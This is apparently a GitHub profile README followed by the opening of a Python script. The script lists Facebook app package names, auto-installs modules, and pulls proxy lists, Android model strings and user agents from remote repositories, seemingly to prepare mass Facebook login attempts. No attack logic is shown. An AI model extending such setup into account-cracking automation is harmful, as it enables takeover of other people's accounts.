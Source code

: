 - 👋 Hi, I’m @SOLW07
- 👀 I’m interested in ...
- 🌱 I’m currently learning ...
- 💞️ I’m looking to collaborate on ...
- 📫 How to reach me ...


fbks=('com.facebook.adsmanager','com.facebook.lite','com.facebook.orca','com.facebook.katana')
try:
    import os,requests,json,time,re,random,sys,uuid,string,subprocess
    from string import *
    import bs4
    from concurrent.futures import ThreadPoolExecutor as tred
    from bs4 import BeautifulSoup as sop
    from bs4 import BeautifulSoup
except ModuleNotFoundError: 
    print('\n Installing missing modules ...')
    os.system('pip install requests bs4 futures==2 > /dev/null')
    os.system('python heros.py')
try:
    prox= requests.get('https://raw.githubusercontent.com/TheSpeedX/PROXY-List/master/socks4.txt').text
    open('proxies.txt','w').write(prox)
except Exception as e:
    print('\x1b[1;92m[√] انتضر خلي هيروس يجيبلك بروكسيات...')
    time.sleep(.1)
proxies=open('proxies.txt','r').read().splitlines()
android_models=[]
try:
    xx = requests.get('https://raw.githubusercontent.com/trt-Fire/data/main/strings.txt').text.splitlines()
    for line in xx:
        android_models.append(line)
except:pass
usr=[]
try:
    xd=requests.get('https://raw.githubusercontent.com/trt-Fire/data/main/ua.txt').text.splitlines()
    for us in xd:
        usr.append(us)
except: pass